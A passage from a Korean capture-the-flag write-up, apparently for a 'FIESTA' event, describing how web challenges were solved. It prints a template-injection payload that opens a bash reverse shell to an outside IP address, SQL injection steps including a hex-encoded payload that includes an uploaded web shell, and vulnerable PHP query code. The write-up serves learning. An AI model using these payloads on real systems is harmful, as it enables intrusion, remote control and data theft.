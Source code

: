 이게 2번 정답이다. 3번은 여기서 SSTI를 이용하여 리버스쉘을 취득해서 nc에서 진행하였다.

```python
`{{config.__class__.__init__.__globals__['os'].popen('/bin/bash-c"/bin/bash-i>&/dev/tcp/49.247.132.71/12345 0>&1"').read()}}`
```

이를 이용하여 우리 서버에 리버스쉘을 연결하고 nc를 열어서 app.py코드를 확인하고 db정보를 취득했다.

그 결과 user:memo에 어드민의 글이 존재하는걸 확인해서  

```sql
mysql -u dev -p -e "select memo from DKNetM.user where memo like ‘%FIESTA%’"
```

이 페이로드를 이용하여 플래그를 출력한게 3번이었다.



<h3>0x2. Auditor

이번에는  sql인젝션 문제였다. 1번은 그냥 로그인 후  보드에서 download.php?idx= 를 넘겨주는 부분에서 타임베이스드 sql인젝션이 가능했다.  select flag from flag를 통하여 플래그를 취득했다.

2번은  1번과 마찬가지로 idx파라미터에서 union select 인젝션을 통해서 index.php코드를 릭하고 분석하여  파일이 업로드 되는 경로를 릭할 수 있었다.  그 이후 회원가입을 할 때, include 트리거를 했다.

```python
id=kcq&pw=kcq&name=kcq&email=kcq%40naver.com&phone= kcq &gender=1,1,0x2720756e696f6e2073656c65637420312c272f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f7661722f7777772f68746d6c2f66696c65732f6562646438303636383732396530616139636661343832336663313161366663393337323263323636636664616337336235623832653162383839312e6a7067272c312c3123)%23
```

여기서 업로드 된 파일은 이미 웹쉘의 형태로 다른 계정에서 업로드 해둔 것이다. 그리고 그 경로는 다음 코드를 통해서 확인할 수 있다.  

```php
function get_theme($pos){
        global $db_conn;

        if(is_login()){
            $query = "SELECT theme_idx FROM user WHERE id='{$_SESSION['id']}'";
            $result = mysqli_query($db_conn, $query);
            $row = mysqli_fetch_array($result);
            if($row){
                $_skin = $row['theme_idx'];
            }else{
                $_skin = 1;
            }
        }else{
            $_skin = 1;
        }
        $query = "SELECT * FROM theme WHERE theme_idx='{$_skin}' and position='{$pos}'";
        $result = mysqli_query($db_conn, $query);
        $row = mysqli_fetch_array($result);
        if (isset($row['path'])){
            return $row['path'];
        }
    }
```
